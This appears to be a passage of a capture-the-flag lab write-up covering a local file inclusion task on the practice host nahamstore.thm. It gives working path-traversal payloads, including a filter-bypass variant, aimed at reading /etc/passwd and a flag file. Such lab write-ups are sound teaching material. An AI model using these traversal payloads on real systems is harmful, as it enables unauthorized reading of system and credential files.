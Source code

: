 
## LFI (Task 8)

LFI
- Go to `http://nahamstore.thm/`
- `view-source:http://nahamstore.thm/`
	```
	...
	<div class="image text-center"><a href="/product?id=2&name=Sticker+Pack"><img class="img-thumbnail" src="/product/picture/?file=cbf45788a7c3ff5c2fab3cbe740595d4.jpg"></a></div>
	...
	```
![10lfi-1](imgs/10lfi-1.png)

- Then, we have the URL `http://nahamstore.thm/product/picture/?file=cbf45788a7c3ff5c2fab3cbe740595d4.jpg`
- Go to `http://nahamstore.thm/product/picture/?file=../../../../../../../../../etc/passwd`
	- We got the message `File does not exist`
	![10lfi-2](imgs/10lfi-2.png)

- Ref: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#filter-bypass-tricks
- Go to `http://nahamstore.thm/product/picture/?file=....//....//....//....//....//etc/passwd`
	- We got the message `You not not have permission to view this file`
- Go to `http://nahamstore.thm/product/picture/?file=....//....//....//....//....//lfi/flag.txt`
	- Not able to see as an image
	![10lfi-3](imgs/10lfi-3.png)
